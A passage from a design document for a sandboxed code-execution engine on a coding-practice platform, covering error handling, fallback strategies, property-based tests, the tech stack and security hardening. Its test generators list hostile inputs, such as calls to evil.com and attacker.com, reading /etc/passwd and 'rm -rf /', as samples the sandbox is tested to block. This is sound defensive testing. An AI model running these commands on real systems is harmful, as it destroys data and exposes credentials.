    public type: 'container_failed' | 'resource_exhausted' | 'isolation_breach',
    public details: string,
    public recoverable: boolean
  ) {
    super(`Server execution error: ${type}`);
  }
}

async function handleServerExecution(code: string): Promise<ExecutionResult> {
  let retryCount = 0;
  const maxRetries = 3;
  
  while (retryCount < maxRetries) {
    try {
      return await executeInContainer(code);
    } catch (error) {
      if (error instanceof ServerExecutionError) {
        // Log security incidents
        if (error.type === 'isolation_breach') {
          await logSecurityIncident(error);
          return { verdict: 'Security Violation', error: error.details };
        }
        
        // Retry on recoverable errors
        if (error.recoverable && retryCount < maxRetries - 1) {
          retryCount++;
          await delay(1000 * retryCount); // Exponential backoff
          continue;
        }
        
        return { verdict: 'System Error', error: 'Execution failed' };
      }
      throw error;
    }
  }
  
  return { verdict: 'System Error', error: 'Max retries exceeded' };
}
```

### Graceful Degradation

```typescript
class ExecutionFallbackChain {
  private strategies: ExecutionStrategy[] = [
    'wasm',
    'worker',
    'server-container',
    'server-vm'
  ];
  
  async executeWithFallback(code: string, language: string): Promise<ExecutionResult> {
    const errors: Error[] = [];
    
    for (const strategy of this.strategies) {
      try {
        if (this.isStrategyAvailable(strategy, language)) {
          return await this.executeWithStrategy(code, strategy);
        }
      } catch (error) {
        errors.push(error);
        await this.logFallback(strategy, error);
        // Continue to next strategy
      }
    }
    
    // All strategies failed
    throw new Error(`All execution strategies failed: ${errors.map(e => e.message).join(', ')}`);
  }
}
```

## Testing Strategy

### Unit Testing Approach

Unit tests will focus on specific components and edge cases:

1. **Editor Integration Tests**
   - Test Monaco editor initialization with different configurations
   - Test language switching and syntax highlighting
   - Test editor resize behavior

2. **Strategy Router Tests**
   - Test code analysis for various code patterns
   - Test strategy selection under different load conditions
   - Test fallback logic when preferred strategy is unavailable

3. **Isolation Layer Tests**
   - Test that restricted APIs are properly blocked
   - Test that filesystem access is limited to temp directories
   - Test that network calls are blocked
   - Test that process limits are enforced

4. **Judge Engine Tests**
   - Test output comparison with various whitespace patterns
   - Test verdict generation for different test case results
   - Test early termination logic

5. **Worker Pool Tests**
   - Test load balancing distribution
   - Test worker reuse after completion
   - Test scale-up and scale-down triggers

### Property-Based Testing Approach

Property-based tests will verify universal properties across all inputs using **fast-check** for JavaScript/TypeScript:

**Configuration:**
- Each property test will run a minimum of 100 iterations
- Tests will use shrinking to find minimal failing examples
- Custom generators will be created for code, inputs, and system states

**Test Organization:**
- Each correctness property from the design document will have exactly one property-based test
- Tests will be tagged with comments referencing the property number and requirements
- Tag format: `// Feature: letscode-execution-engine, Property {N}: {property_text}`

**Example Property Test Structure:**

```typescript
import fc from 'fast-check';

describe('Execution Engine Properties', () => {
  // Feature: letscode-execution-engine, Property 1: Empty code rejection
  it('should reject empty or whitespace-only code', () => {
    fc.assert(
      fc.property(
        fc.string().filter(s => s.trim().length === 0),
        async (emptyCode) => {
          const result = await executionEngine.submit({
            code: emptyCode,
            language: 'javascript',
            problemId: 'test'
          });
          
          expect(result.error).toBeDefined();
          expect(result.error).toContain('validation');
        }
      ),
      { numRuns: 100 }
    );
  });
  
  // Feature: letscode-execution-engine, Property 2: Submission ID uniqueness
  it('should generate unique submission IDs', () => {
    fc.assert(
      fc.property(
        fc.array(fc.record({
          code: fc.string(),
          language: fc.constantFrom('javascript', 'python', 'cpp')
        }), { minLength: 10, maxLength: 100 }),
        async (submissions) => {
          const ids = await Promise.all(
            submissions.map(s => executionEngine.submit(s))
          );
          
          const uniqueIds = new Set(ids);
          expect(uniqueIds.size).toBe(ids.length);
        }
      ),
      { numRuns: 100 }
    );
  });
  
  // Feature: letscode-execution-engine, Property 7: API restriction enforcement
  it('should block restricted API calls in client-side execution', () => {
    fc.assert(
      fc.property(
        fc.constantFrom(
          'fetch("http://evil.com")',
          'new XMLHttpRequest()',
          'new WebSocket("ws://evil.com")',
          'importScripts("evil.js")'
        ),
        async (maliciousCode) => {
          const result = await clientExecutor.execute(maliciousCode, '');
          
          expect(result.verdict).toBe('Security Violation');
          expect(result.error).toContain('restricted API');
        }
      ),
      { numRuns: 100 }
    );
  });
});
```

**Custom Generators:**

```typescript
// Generator for valid code submissions
const validCodeGenerator = fc.record({
  code: fc.string({ minLength: 1 }).filter(s => s.trim().length > 0),
  language: fc.constantFrom('javascript', 'python', 'cpp'),
  problemId: fc.uuid(),
  userId: fc.uuid()
});

// Generator for resource-intensive code
const heavyCodeGenerator = fc.record({
  code: fc.constantFrom(
    'while(true) {}',  // Infinite loop
    'const arr = new Array(1e9)',  // Large allocation
    'function recurse() { recurse(); } recurse()'  // Stack overflow
  ),
  language: fc.constant('javascript')
});

// Generator for unsafe code patterns
const unsafeCodeGenerator = fc.constantFrom(
  'require("fs").readFileSync("/etc/passwd")',
  'require("child_process").exec("rm -rf /")',
  'fetch("http://attacker.com")',
  'eval(userInput)'
);
```

### Integration Testing

Integration tests will verify end-to-end flows:

1. **Submission Flow Test**
   - Submit code → Queue → Execute → Judge → Return verdict
   - Verify WebSocket updates at each stage
   - Verify database persistence

2. **Concurrent Execution Test**
   - Submit multiple solutions simultaneously
   - Verify isolation between executions
   - Verify correct verdict for each

3. **Fallback Chain Test**
   - Force client-side execution to fail
   - Verify automatic fallback to server-side
   - Verify correct execution result

4. **Scale Test**
   - Simulate high load with many submissions
   - Verify auto-scaling triggers
   - Verify queue management

### Performance Testing

Performance tests will validate scalability requirements:

1. **Throughput Test**
   - Measure submissions processed per second
   - Target: 1000+ submissions/second with auto-scaling

2. **Latency Test**
   - Measure end-to-end latency for simple submissions
   - Target: < 500ms for client-side execution
   - Target: < 2s for server-side execution

3. **Resource Efficiency Test**
   - Measure container startup time
   - Measure memory overhead per execution
   - Verify resource cleanup

### Security Testing

Security tests will validate isolation and protection:

1. **Penetration Testing**
   - Attempt to break out of sandbox
   - Attempt to access host filesystem
   - Attempt to make network connections
   - Attempt fork bombs and resource exhaustion

2. **Fuzzing**
   - Generate random code inputs
   - Verify system remains stable
   - Verify no crashes or hangs

3. **Audit Logging Test**
   - Trigger security violations
   - Verify all violations are logged
   - Verify forensic evidence is preserved

## Implementation Notes

### Technology Stack

**Frontend:**
- React for UI components
- Monaco Editor for code editing
- WebSocket client for real-time updates
- Web Workers for client-side execution
- Pyodide for Python in browser
- Emscripten/WASM for C++ in browser

**Backend:**
- Node.js/TypeScript for API server
- Docker for containerization
- Custom orchestration layer (not Kubernetes)
- Redis for queue management
- PostgreSQL for persistent storage
- InfluxDB for metrics and monitoring

**Testing:**
- Jest for unit tests
- fast-check for property-based tests
- Playwright for integration tests

### Deployment Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                         Load Balancer                       │
└─────────────────────────────────────────────────────────────┘
                              │
                ┌─────────────┴─────────────┐
                │                           │
┌───────────────▼──────────┐   ┌───────────▼──────────────┐
│   API Server Cluster     │   │  WebSocket Server        │
│   (Stateless)            │   │  (Sticky Sessions)       │
└───────────────┬──────────┘   └───────────┬──────────────┘
                │                           │
                └─────────────┬─────────────┘
                              │
                ┌─────────────▼─────────────┐
                │   Redis Queue Cluster     │
                └─────────────┬─────────────┘
                              │
                ┌─────────────▼─────────────┐
                │  Execution Worker Pool    │
                │  (Auto-scaling)           │
                │  ┌──────┐ ┌──────┐       │
                │  │ Node │ │ Node │ ...   │
                │  └──────┘ └──────┘       │
                └───────────────────────────┘
```

### Scalability Considerations

1. **Horizontal Scaling**
   - API servers are stateless and can scale infinitely
   - Worker nodes can scale based on queue depth
   - Database uses read replicas for query scaling

2. **Caching Strategy**
   - Cache compiled WASM modules for popular problems
   - Cache warm containers for frequently used languages
   - Cache problem test cases in memory

3. **Resource Optimization**
   - Reuse containers when possible
   - Implement container pooling
   - Use copy-on-write for filesystem layers

4. **Cost Optimization**
   - Prefer client-side execution to reduce server costs
   - Implement aggressive scale-down during low traffic
   - Use spot instances for worker nodes

### Security Hardening

1. **Defense in Depth**
   - Multiple isolation layers (namespaces, cgroups, seccomp)
   - Principle of least privilege
   - Fail-secure defaults

2. **Monitoring and Alerting**
   - Real-time security violation detection
   - Anomaly detection for unusual patterns
   - Automated response to attacks

3. **Audit and Compliance**
   - Comprehensive logging of all executions
   - Forensic evidence preservation
   - Regular security audits

### Future Enhancements

1. **Advanced Optimizations**
   - Machine learning for execution strategy selection
   - Predictive pre-warming based on user behavior
   - Intelligent test case ordering

2. **Additional Languages**
   - Java, Go, Ruby, PHP support
   - Custom language runtime support

3. **Advanced Features**
   - Interactive debugging
   - Code profiling and optimization suggestions
   - Collaborative coding support

4. **Platform Extensions**
   - Contest mode with real-time leaderboards
   - Educational mode with hints and explanations
   - API for third-party integrations
